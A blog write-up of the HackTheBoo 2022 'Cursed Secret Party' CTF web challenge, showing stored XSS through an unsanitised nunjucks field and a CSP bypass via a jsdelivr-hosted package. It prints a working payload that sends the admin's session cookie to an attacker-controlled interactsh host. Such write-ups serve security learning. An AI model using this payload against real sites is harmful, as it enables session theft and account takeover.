 ```yaml
---
layout: post
title:  "HTB HackTheBoo 2022 - (Web) Cursed Secret Party writeup"
date:   2022-10-27 16:00:00 +0300
categories: HackTheBoo_2022 CTF stored_xss csp_bypass
summary: Writeup for the Cursed Secret Party challenge (Web5/5) from HackTheBoo 2022. This challenge involved exploiting a Stored XSS vulnerability and bypassing the CSP.
---
```



'Cursed secret party' was a web challenge (day 5 out of 5) from HackTheBox's HackTheBoo CTF.  
Getting the flag involved exploiting a Stored Cross-Site Scripting vulnerability and bypassing the restrictions imposed by the Content Security Policy (CSP).

### What we got

Like the previous web challenges, we got a container running the app and the code.

According to the dockerfile, we have the NodeJS app (built using ExpressJS) and a Google Chrome instance.  
The nodeJS app will use puppeteer and control a headless instance of Chrome in order to simulate an user/admin accessing the page.  
This setup is usually used for XSS-based attacks so we already know what to expect from this challenge.

In the *bot.js* file we can also see that the token used by the admin user will also contain the flag.
![Bot code]({{site.baseurl}}/assets/img/HackTheBoo_2022/cursed_secret_party/bot_code.png){: .center-image}

After having a quick look at the code, we surely want to run this locally as we want to make some changes to the app in order to accelerate developing the attack. 
### Running the app locally

We can use the commands from *build-docker.sh* to build and run the Docker container.  
The only change that I made was the port because I had something else running on 1337 at that time. (that change is not included below)  

{% highlight bash %}
#!/bin/bash
docker rm -f web_cursed_party
docker build -t web_cursed_party .
docker run --name=web_cursed_party --rm -p1337:1337 -it web_cursed_party
{% endhighlight %}

### Modifying the app

After we confirmed that the app runs, we want to modify it a bit.  

First, we need a token in order to access the /admin endpoint and there's no login route so we can't get one.  
Two simple methods of getting a token would be to edit the *bot.js* file and make the bot print its token before accessing the /admin page. (just add a console.log(token); statement there)   
Another one would be to edit the *middleware/AuthMiddleware.js* file and make the server print every token used for authentication.  
I implemented both of those changes.  
The application generates a random key used for signing JWTs so I couldn't just generate a valid JWT and use that for authentication.  

Now for the second thing that we want to change: every time the bot visits the sites, two endpoints get accessed: /admin and /admin/delete_all.  
Like its name suggests, the second endpoint will delete all the entries from the database.  
We don't want that to happen because we want to access /admin and test the payloads ourselves.   
So as a fix, we comment out the block that makes the call to the /admin/delete_all endpoint from *bot.js*.

With the modifications being made, we run the *build-docker.sh* script again and start accessing the app.  

We can also check that we can see the bot's token by reading the output of 'docker logs web_cursed_party'.  
![Getting an admin token]({{site.baseurl}}/assets/img/HackTheBoo_2022/cursed_secret_party/bot_token.png){: .center-image}
Note: The first JWT that you see in the screenshot is a regular user token

That token can be added as a cookie named 'session' in your browser and you'll be able to access /admin
![Admin panel]({{site.baseurl}}/assets/img/HackTheBoo_2022/cursed_secret_party/admin_panel.png){: .center-image}


### Finding the injection point

Enough setup, let's try to get that flag.  

First, let's see what is the data flow used by this application.
![The target webapp]({{site.baseurl}}/assets/img/HackTheBoo_2022/cursed_secret_party/webapp.png){: .center-image}

By using the form on the webpage you are sending four values to the server: halloween_name, email, costume_type and trick_or_treat.  
All of them are inserted into the database without any kind of processing or sanitization.  
The code used for interacting with the database is not vulnerable to SQL Injection so we can cross that off our lists.  

That data gets displayed when the /admin endpoint gets accessed.  
We can see how the data is displayed by reading the *views/admin.html* file.  

![Admin HTML template]({{site.baseurl}}/assets/img/HackTheBoo_2022/cursed_secret_party/html_template.png){: .center-image}

By taking a look at package.json, we can see that the [nunjucks](https://mozilla.github.io/nunjucks/) library is used for templating.  
That's probably where that '\| safe' used for halloween_name comes from.  

By looking at the nunjucks [documentation](https://mozilla.github.io/nunjucks/templating.html#safe) we can see that 'safe' is used for indicating that a value is safe and that it shouldn't be sanitized.  
This means that using 'safe' actually makes the halloween_name field the vulnerable one.
![]({{site.baseurl}}/assets/img/HackTheBoo_2022/cursed_secret_party/ironic_meme.png){: .center-image}

Now that we know the vulnerable field, let's try injecting a simple payload. Let's go for \<script\>alert(1)\</script\> for now.  

After we add the entry and go to /admin ... nothing happens.  
If we open the console we can see that our payload has been blocked because of the Content Security Policy (CSP)
![CSP Error]({{site.baseurl}}/assets/img/HackTheBoo_2022/cursed_secret_party/csp_error.png){: .center-image}

### Bypassing the Content Security Policy (CSP)

Now we have to find a way to bypass the CSP. For that, let's take a look at the Content-Security-Policy header first and see what is allowed.  

{% highlight text %}
script-src 'self' https://cdn.jsdelivr.net; 
style-src 'self' https://fonts.googleapis.com; 
img-src 'self'; 
font-src 'self' https://fonts.gstatic.com; 
child-src 'self'; 
frame-src 'self'; 
worker-src 'self'; 
frame-ancestors 'self'; 
form-action 'self'; 
base-uri 'self'; 
manifest-src 'self'
{% endhighlight %}

The script-src entry stands out. It allows loading scripts from [jsdelivr](https://www.jsdelivr.com/), a CDN that's commonly used for loading javascript or css files.  
After searching for a while to see if I can upload my own files to jsdelivr, I found the [csp-bypass](https://github.com/CanardMandarin/csp-bypass) project on GitHub.  
Someone already made a javascript module that can be loaded and it will allow you to execute arbitrary javascript code.  
We can also check that it is indeed found on jsdelivr: [csp-bypass](https://www.jsdelivr.com/package/npm/csp-bypass).  

First, we use the demo payload from the github repository to get an alert popup

{% highlight json %}
{
    "halloween_name":"<script src='https://cdn.jsdelivr.net/npm/csp-bypass@1.0.2/dist/sval-classic.js'></script><br csp='alert(1)'>",
    "email":"test",
    "costume_type":"test",
    "trick_or_treat":"test"
}
{% endhighlight %}

![Injecting javascript]({{site.baseurl}}/assets/img/HackTheBoo_2022/cursed_secret_party/script_works.png){: .center-image}

### Preparing the payload

We can now run JavaScript in the admin's browser. So the next step is to steal their session cookie and decode the flag contained in it.  

For that, we'll make a request to a domain that we control using XMLHttpRequest and we'll append the  cookie (accessed by document.cookie) to the URL.  
For the domain we'll use [interactsh](https://github.com/projectdiscovery/interactsh), a projectDiscovery tool that also offers a [hosted version](https://app.interactsh.com/#/).  

We want our javascript payload to look like this.

{% highlight javascript %}
const http=new XMLHttpRequest();
http.open("GET", "https://cdd1cwk2vtc0000vg6a0ggsosqcyyyyyb.oast.fun/" + document.cookie);
http.send();
{% endhighlight %}

So our request body will look like this.

{% highlight json %}
{
    "halloween_name":"<script src='https://cdn.jsdelivr.net/npm/csp-bypass@1.0.2/dist/sval-classic.js'></script><br csp='const http=new XMLHttpRequest(); http.open(\"GET\", \"https://cdd1cwk2vtc0000vg6a0ggsosqcyyyyyb.oast.fun/\" + document.cookie);http.send();'>",
    "email":"test",
    "costume_type":"test",
    "trick_or_treat":"test"
}
{% endhighlight %}

We send the request and then watch our interactsh console.  
After a very short time, we receive a request and we can see that the URL contains the session cookie.

![Getting the token in InteractSH]({{site.baseurl}}/assets/img/HackTheBoo_2022/cursed_secret_party/interactsh_cookie.png){: .center-image}
Note: this was done on the remote server that contained the real flag

### Getting the flag

Now we decode the received session token using [jwt.io](https://jwt.io/) and we can read the flag from there.  
![Getting the flag]({{site.baseurl}}/assets/img/HackTheBoo_2022/cursed_secret_party/decoded_jwt.png){: .center-image}
